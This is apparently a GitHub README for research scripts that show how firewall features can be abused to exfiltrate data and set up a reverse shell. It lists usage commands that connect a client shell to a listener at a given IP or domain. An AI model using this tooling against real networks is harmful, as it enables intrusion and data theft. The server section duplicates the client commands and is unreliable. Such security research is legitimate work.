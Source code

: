 # When features turn into nightmares
## How threat actors can exploit NGFW features to exfiltrate data and establish a reverse shell

To run the experiments described in this article you can use the script available in this repository.
You must run firstly the script on the server, that opens a listener, and then the one on the client that connects to it.


## Client script

Usage:
>	python shell-client.py -s <SERVER> [-p <PORT> -b <BUFFER_SIZE>]

Example:
>	python shell-client.py -s 192.168.100.54 -p 44444 -b 50
>	python shell-client.py -s example.com -p 44444 -b 50

Default values:
>	-p 33333 (must be the same of server)
>	-b 100 (must be the same of server)



## Server script

Usage:
>	python shell-client.py -s <SERVER> [-p <PORT> -b <BUFFER_SIZE>]

Examples:
>	python shell-client.py -s 192.168.100.54 -p 44444 -b 50
>	python shell-client.py -s example.com -p 44444 -b 50

Default values:
>	-p 33333 (must be the same of server)
>	-b 100 (must be the same of server)


